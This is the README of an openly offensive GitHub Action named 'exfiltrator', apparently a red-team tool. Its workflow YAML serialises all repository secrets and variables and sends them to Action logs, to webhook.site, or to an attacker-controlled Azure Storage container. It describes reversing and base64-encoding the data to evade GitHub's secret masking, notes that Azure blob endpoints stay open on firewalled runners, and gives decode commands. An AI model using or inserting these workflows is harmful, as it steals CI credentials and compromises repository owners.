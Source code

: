 # Secret and Environment Exfiltrator

![Logo](resources/logo.jpg)

## Background

All the contexts: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs
Printing context to logs: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs#about-contexts

## Usage

### Exfil to GitHub Action logs (default behaviour)

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
```

### Exfil to webhook.site

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'webhook.site'
          webhook-site-id: '<site_id>'
```

This allows sending the data off to [https://webhook.site](https://webhook.site).

Going there will automatically generate an ID you can use for the input variable `webhook-site-id`.

> ⚠️ Beware: if you do not use the paid version of the service, the exfiltrated data will be readable for anyone with the correct ID (UUID), and for the owner of the site.

### Exfil to Azure Storage Account container

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'azure-storage-account'
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<sas_token>'
```

This option is available, since `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).

If your Storage Account has the globally unique name `examplename`, it will be available at `https://examplename.blob.core.windows.net`...

You should generate an SAS token that will allow for write-only for a limited time. This will generate one that is valid for 10 minutes:

``` bash
az storage container generate-sas --account-name <storage_account_name> --name <container_name> --permissions w --expiry $(date -u -d "+10 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Working with the output

The Action will exfiltrate a json that is first reversed character by character (to circumvent the masking of secrets) and then base64 encoded for the transport.

Follow these steps to make this blob readable:

``` bash
# make all of it readable
echo <output> | base64 -d | rev | jq

# show only the envvars that get a special treatment, since they are not in json format to begin with
echo <output> | base64 -d | rev | jq -r '.[0].envvars' | base64 -d
```

## Next steps

Status:
* logs works on all OSs
* Azure storage works only on ubuntu; on windows there are "too many arguements for curl" and on macos there is a weird problem with awk - however, it worked for logs sink, so I dont get it.

1. If exfil fails to webhook or Azure, the action still succeeds, since the HTTP errors are not regarded as errors in general. Change that?
2. Fix Azure exfil for windows and macOS
